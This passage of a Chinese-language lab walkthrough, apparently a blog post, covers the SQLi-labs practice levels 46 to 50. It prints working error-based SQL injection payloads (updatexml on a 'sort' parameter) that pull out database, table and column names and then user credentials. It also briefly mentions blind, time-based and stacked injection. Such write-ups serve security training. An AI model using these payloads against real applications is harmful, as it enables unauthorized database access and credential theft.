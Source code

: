 
<img src="https://i-blog.csdnimg.cn/blog_migrate/8447183cdbb9c65373e34758d79bb727.png" alt="" style="max-height:177px; box-sizing:content-box;" />




```cobol
?sort=4 and updatexml(1,concat(0x7e,(select database())),3)
 
 
 
?sort=4 and updatexml(1,concat(0x7e,(select group_concat(table_name)from information_schema.tables where and table_schema=database())),3)
 
 
?sort=4 and updatexml(1,concat(0x7e,(select group_concat(column_name)from information_schema.columns where table_name='users' and table_schema=database())),3)
 
 
 
?sort=4 and updatexml(1,concat(0x7e,(select concat(id,username,password)from users limit 0,1)),3)
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/57503dc062cdd42ca309e9a7e95e279d.png" alt="" style="max-height:67px; box-sizing:content-box;" />




## Less-47

一样的 闭合方式不一样罢了

```vbnet
1' and updatexml(1,concat(0x7e,database()),3)-- +
```

这里注意 因为是字符类型 所以无论输入多少 都是 出现id=1的情况

## Less-48

纯盲注

直接sqlmap跑得了

## Less-49

使用延时注入

## Less-50 整数型的堆叠注入





<img src="https://i-blog.csdnimg.cn/blog_migrate/40f7337c8c15dfeb3532eec2b11795fb.png" alt="" style="max-height:133px; box-sizing:content-box;" />
